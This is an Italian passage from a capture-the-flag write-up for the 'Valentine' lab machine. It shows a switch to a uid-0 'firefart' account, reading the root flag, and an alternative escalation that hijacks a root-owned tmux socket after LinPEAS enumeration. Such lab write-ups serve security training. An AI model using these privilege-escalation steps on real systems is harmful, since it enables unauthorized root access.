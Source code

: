 ```bash
hype@Valentine:~$ 
hype@Valentine:~$ su firefart 
Password: 
firefart@Valentine:/home/hype# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@Valentine:/home/hype#         
```

Possiamo leggere la flag locata in /root 
```bash
firefart@Valentine:~# cat root.txt 
9965fd6b8df7b93fcea180ee1b8f64b2
```

## PRIVESC ALTERNATIVA 

Scaricando LinEPas e esegundolo tra i dati interessanti che troviamo ci sono questi 
```bash
[-] Location and contents (if accessible) of .bash_history file(s):
/home/hype/.bash_history

exit
exot
exit
ls -la
cd /
ls -la
cd .devs
ls -la
tmux -L dev_sess 
tmux a -t dev_sess 
tmux --help
tmux -S /.devs/dev_sess 
exit
pwd
exit
```

Vediamo che c'e una sessione di [Tmux](../../Note/Tmux.md) aperta se gira com root possiamo attacarci ad essa con il seguente comando 
```
hype@Valentine:~$ tmux -S /.devs/dev_sess
```

Si aprirà una sessione di tmux con massimi privilegi
```bash

root@Valentine:/home/hype# id
uid=0(root) gid=0(root) groups=0(root)
root@Valentine:/home/hype# 
```

# LESSION LEARNED
